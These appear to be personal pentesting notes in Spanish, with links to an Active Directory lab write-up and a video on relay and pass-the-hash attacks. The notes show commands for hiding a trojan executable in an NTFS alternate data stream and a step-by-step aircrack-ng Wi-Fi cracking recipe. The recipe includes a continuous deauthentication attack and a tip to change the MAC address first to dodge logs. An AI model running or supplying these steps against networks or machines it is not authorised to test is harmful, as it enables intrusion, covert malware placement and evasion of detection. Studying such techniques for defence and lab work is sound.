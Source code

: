 10:00

[https://hex-men.tech/tryhackme-attacktivedirectory-report/](https://hex-men.tech/tryhackme-attacktivedirectory-report/)

[Pentesting en entornos Active Directory #1 - Samba Relay, PassTheHash](https://www.youtube.com/watch?v=LLevcaB4qew&amp;list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z)

![](RackMultipart20210412-4-pcx9xb_html_211962bc535496f3.png)



# ADS - Cómo crear archivos invisibles en NTFS

jueves, 7 de mayo de 2020

14:31

Echo &quot;hola&quot; \&gt;\&gt; inocente.txt

Notepad inocente.txt:maligno.txt

Type trojan.exe\&gt;inocente.txt:oculto.exe

Se pueden descubrir con dir /R



# Aircrack- - Cómo crackear la wifi

jueves, 7 de mayo de 2020

14:37

Ifconfig \&lt;int\&gt; down



Iwconfig \&lt;int\&gt; mode monitor



Ifconfig \&lt;int\&gt; up

O simplemente

airmon-ng start \&lt;int\&gt;

para saber si la tarjeta inyecta paquetes.

Aireplay-ng -9 \&lt;i\&gt;

Airodump-ng -c \&lt;channel\&gt; -w \&lt;filedump\&gt; --bssid \&lt;mac\&gt; \&lt;int\&gt;

Aquí mostra en #/s la cantidad de reconexiones, dejar corriendo

Aireplay-ng -0 0 -a \&lt;mac\&gt; \&lt;int\&gt;

es conveniente ejecutar un macchanger antes de este paso, dado que en log aparece registrado el Deauth

Crea la autentificación después de unos minutos se puede cancelar para permitir a los dispositivos autenticarse de nuevo.
